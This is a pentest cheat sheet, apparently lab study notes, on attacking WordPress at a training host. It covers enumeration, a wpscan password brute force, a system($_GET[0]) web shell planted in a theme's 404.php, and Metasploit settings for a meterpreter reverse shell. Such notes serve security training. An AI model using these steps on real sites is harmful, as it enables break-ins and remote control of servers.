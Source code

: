 ## Wordpress

### Enumeration
Interesting files :

```bash
/robots.txt
/wp-sitemap.xml
/wp-admin/admin-ajax.php
/wp-login.php
wp-content/plugins
wp-content/themes
```

Interesting commands :

```bash
curl -s http://blog.inlanefreight.local | grep WordPress
curl -s http://blog.inlanefreight.local/ | grep plugins
curl -s http://blog.inlanefreight.local/?p=1 | grep plugins
wpscan --url http://blog.inlanefreight.local --enumerate --api-token <API_TOKEN>
# Bruteforce
wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
```

### Exploitation

- Check for vulnerable plugins

As admin We can edit 404.php file from a theme as a reverse shell (and get RCE) 

Editing (for example) : 

```bash
http://blog.inlanefreight.local/wp-admin/theme-editor.php?file=404.php&theme=twentynineteen
```

Add :
```php
system($_GET[0]);
# or https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
```

Trigger : 
```bash
curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Same steps using metasploit : 
```bash
msf6 > use exploit/unix/webapp/wp_admin_shell_upload 

[*] No payload configured, defaulting to php/meterpreter/reverse_tcp

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username john
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password firebird1
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lhost $tun0
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhost $target_ip  
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set VHOST vhost (if needed)
```